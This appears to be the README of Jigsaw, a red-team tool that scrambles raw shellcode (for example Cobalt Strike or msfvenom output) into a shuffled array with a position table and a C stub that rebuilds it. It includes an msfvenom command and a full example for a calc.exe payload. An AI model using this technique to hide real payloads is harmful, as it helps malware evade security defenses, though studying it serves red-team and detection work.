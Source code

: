 # Jigsaw
Jigsaw takes a raw shellcode input and outputs randomized shellcode, a lookup table, and a C/C++ stub to translate the randomized shellcode back to a usable format.

Read the Red Siege blog post explaining Jigsaw: [https://redsiege.com/blog/2024/03/jigsaw/](https://redsiege.com/blog/2024/03/jigsaw/)

## Usage
```python3 jigsaw.py inputfile.bin```

## Note
Jigsaw takes raw shellcode bytes (output format Raw in Cobalt Strike) as input.

## Example
```
$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
$ python3 jigsaw.py calc.bin
$ cat jigsaw.txt
unsigned char jigsaw[276] = {0x5d, 0x8b, 0x8d, 0xc0, 0x01, 0x48, 0x80, 0x00, 0x87, 0x7c, 0xc0, 0x74, 0x48, 0x58, 0xd1, 0x95, 0x00, 0xe9, 0xbd, 0x63, 0xe0, 0x01, 0x65, 0x01, 0x4a, 0x48, 0x6f, 0x44, 0x6a, 0xa2, 0x0a, 0x4c, 0xb7, 0x88, 0x5a, 0x01, 0xbb, 0xac, 0x0d, 0xba, 0x4d, 0x41, 0x59, 0x42, 0x49, 0x50, 0x5e, 0xbb, 0x5a, 0x41, 0x83, 0xc9, 0x28, 0x20, 0x00, 0x52, 0x00, 0xd2, 0x24, 0x41, 0x4a, 0x01, 0xff, 0xd0, 0xff, 0x56, 0x20, 0x31, 0x56, 0x8b, 0x6c, 0x31, 0x12, 0xf0, 0x34, 0x48, 0xac, 0x41, 0x8b, 0x01, 0x58, 0x48, 0x48, 0x04, 0x88, 0x48, 0xff, 0x52, 0x05, 0x65, 0xc9, 0xc1, 0x48, 0x8b, 0x75, 0x40, 0xd0, 0x59, 0x4d, 0xff, 0x61, 0x1c, 0x75, 0x4c, 0x01, 0x52, 0x8b, 0xc9, 0x56, 0x8b, 0x0c, 0x48, 0x58, 0xf1, 0x41, 0x31, 0x00, 0xd0, 0xd0, 0xec, 0x00, 0x59, 0x13, 0xe0, 0x72, 0x8b, 0x48, 0xff, 0x40, 0xd0, 0x00, 0x02, 0x75, 0x85, 0x20, 0x80, 0xc4, 0x58, 0x48, 0xd6, 0xd8, 0x47, 0x41, 0x59, 0x48, 0x01, 0xa6, 0xda, 0x8b, 0x41, 0xc1, 0x00, 0xc1, 0x48, 0xff, 0x52, 0x00, 0xfc, 0x51, 0x3c, 0x8b, 0x57, 0xe2, 0x2c, 0x0d, 0x01, 0xed, 0x31, 0x58, 0x7c, 0xd5, 0x01, 0x41, 0x00, 0x3c, 0x45, 0x51, 0x01, 0x08, 0x41, 0x49, 0x65, 0x00, 0x44, 0x52, 0xd0, 0x48, 0x52, 0x00, 0x5a, 0x8b, 0x3c, 0xe8, 0xe3, 0x48, 0x40, 0x8d, 0xba, 0x31, 0x44, 0x01, 0xfb, 0xf0, 0x48, 0x83, 0x51, 0x2e, 0x8b, 0x00, 0x83, 0x48, 0x61, 0x00, 0x66, 0x88, 0x00, 0x41, 0x41, 0xd5, 0x06, 0x41, 0xe4, 0x52, 0x38, 0x60, 0x20, 0x6f, 0xc0, 0x48, 0x49, 0x41, 0x20, 0x63, 0xc0, 0x72, 0xc1, 0x8b, 0x39, 0xc9, 0xba, 0x78, 0x8b, 0x41, 0x8b, 0x41, 0x00, 0xff, 0x8b, 0x89, 0x48, 0x00, 0x31, 0xff, 0x41, 0x41, 0x50, 0xb5, 0x03, 0x48, 0x41, 0x18, 0x67, 0x48, 0x41, 0x50, 0x0f, 0x8b, 0x48, 0xe0, 0xd5, 0x24, 0x18, 0xc9, 0x9d, 0x48, 0x41 };

int positions[276] = { 202, 22, 214, 6, 126, 104, 249, 81, 225, 51, 119, 86, 182, 142, 139, 236, 208, 197, 237, 267, 251, 89, 272, 217, 41, 83, 258, 95, 259, 231, 248, 132, 39, 110, 193, 148, 228, 48, 124, 234, 42, 107, 179, 72, 99, 91, 173, 254, 175, 121, 242, 116, 244, 70, 211, 23, 8, 19, 146, 169, 40, 167, 226, 168, 201, 103, 54, 222, 232, 96, 269, 18, 196, 229, 109, 29, 120, 55, 163, 100, 172, 25, 1, 164, 79, 33, 105, 27, 253, 20, 44, 122, 241, 223, 140, 157, 90, 261, 114, 199, 268, 158, 252, 134, 112, 187, 34, 57, 16, 108, 153, 194, 170, 131, 262, 115, 209, 149, 161, 184, 82, 174, 256, 129, 35, 156, 111, 188, 145, 76, 275, 52, 130, 84, 185, 78, 243, 177, 21, 113, 141, 255, 176, 192, 154, 216, 235, 264, 92, 191, 127, 260, 56, 88, 265, 69, 219, 0, 66, 49, 77, 198, 62, 53, 58, 205, 63, 46, 190, 247, 227, 160, 233, 206, 245, 137, 15, 75, 136, 151, 147, 274, 212, 155, 64, 101, 37, 14, 218, 181, 68, 73, 5, 102, 203, 97, 215, 204, 118, 143, 60, 250, 4, 67, 183, 11, 271, 71, 9, 2, 74, 50, 7, 150, 165, 207, 65, 10, 266, 246, 171, 3, 31, 128, 24, 32, 224, 47, 45, 159, 162, 98, 270, 85, 257, 61, 195, 138, 106, 221, 273, 30, 180, 152, 125, 210, 239, 26, 263, 117, 80, 43, 200, 220, 178, 36, 230, 133, 17, 186, 94, 87, 93, 12, 13, 38, 144, 166, 189, 240, 135, 28, 123, 238, 213, 59 };


unsigned int calc_len = 276;
char calc_payload[276] = { 0x00 };
int position;

// Reconstruct the payload
for (int idx = 0; idx < sizeof(positions) / sizeof(positions[0]); idx++) {
        position = positions[idx];
        calc_payload[position] = jigsaw[idx];
}
